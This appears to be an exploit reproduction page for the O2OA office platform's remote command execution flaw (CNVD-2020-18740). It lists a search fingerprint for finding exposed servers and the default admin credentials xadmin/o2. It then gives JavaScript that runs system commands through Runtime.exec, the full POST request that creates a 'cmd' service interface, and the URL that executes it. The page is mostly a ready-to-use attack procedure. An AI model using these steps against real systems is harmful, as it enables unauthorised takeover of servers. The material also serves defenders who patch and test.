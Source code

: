 # O2OA invoke background remote command execution vulnerability CNVD-2020-18740

## Vulnerability Description

O2OA is an open source and free enterprise and team office platform, providing four major platforms: portal management, process management, information management, and data management. It integrates work reporting, project collaboration, mobile OA, document sharing, process approval, data collaboration and other functions to meet various management and collaboration needs of enterprises. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">O2OA</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title=="O2OA"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661649878832-df6a8d1f-e402-4db0-b567-7d0803a43c0a.png)

Default password login to the background xadmin/o2

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661649916148-8af674f2-9b77-41e8-bfab-fe47e364140c.png)

Find service management in the application, create interface code and execute system commands

```php
var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream()));

var result = [];
while (true) {
    var oneline = bufReader.readLine();
    result.push(oneline);
    if (!oneline) break;
}
var result = { "Result": result };
this.response.setBody(result, "application/json"); 
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661650002413-1be235fd-5727-4e31-826f-92ae36e44d04.png)

Request Package

```php
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Authorization: PfyuxmzgIzrrkjVKSmRBJ4uCkH5tYmpq50QnO7mEHhA

{"id":"cmd","name":"cmd","enableToken":false,"alias":"","description":"","validated":true,"enable":true,"text":"var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(\"id\").getInputStream()));\n\nvar result = [];\nwhile (true) {\n    var oneline = bufReader.readLine();\n    result.push(oneline);\n    if (!oneline) break;\n}\nvar result = { \"Result\": result };\nthis.response.setBody(result, \"application/json\"); ","remoteAddrRegex":"","createTime":"2022-08-27 04:39:18","updateTime":"2022-08-27 04:39:18"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661650118309-8a01cd95-9083-4ac8-8615-6cbde2512630.png)

After successful creation, access the interface to execute system commands

```php
/x_program_center/jaxrs/invoke/cmd/execute
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661650222611-e47cb068-cceb-4aa9-95de-421bb1e026f9.png)